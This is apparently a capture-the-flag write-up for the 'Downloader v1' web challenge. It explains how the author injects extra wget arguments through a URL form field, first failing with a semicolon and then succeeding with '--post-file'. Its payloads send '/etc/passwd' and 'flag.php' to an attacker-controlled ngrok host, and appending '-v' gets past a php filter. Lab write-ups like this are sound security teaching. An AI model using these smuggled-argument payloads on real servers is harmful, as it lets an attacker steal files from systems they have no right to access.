

# Downloader v1

### Challenge

Don't you find it frustrating when you have uploaded some files on a website but you're are not sure if the download button works? Me neither. But some people did. Is there even demand for such a service?

Flag format: DCTF{sha256}

### My solution

First, we see that the website gives us a complete view of what is running in the background; indeed, we have a terminal output.



My first idea was to inject commands using the `;`.  Unfortunately, `;` are escaped.
Then, i wondered if there was a way to execute code via the `wget` command. Looking at the `wget` documentation, I found myself looking at the `--post-file` parameter :

```
--post-file=file

    Use POST as the method for all HTTP requests and send the specified data in the request body. --post-data sends string as data, whereas --post-file sends the contents of file.
```

Then I fire up `ngrok`, and send `http://xxxxxxxxxxx.ngrok.io --post-file=/etc/passwd` in the website form. Success ! I have read access to the filesystem ! Now I need to find the flag...

Trying to read `index.php`, I get caught and a `Sneaky you !` error message appears. With a couple of tests, this clearly happens everytime I try to download a php file. More importantly, when I append characters at the end of the query, the message disapears. So maybe I can still craft a valid request by appending an other flag to the wget command ? Indeed, using `-v` (verbose) does the trick.

Final payload : `http://xxxxxxxxxxx.ngrok.io --post-file=flag.php -v`
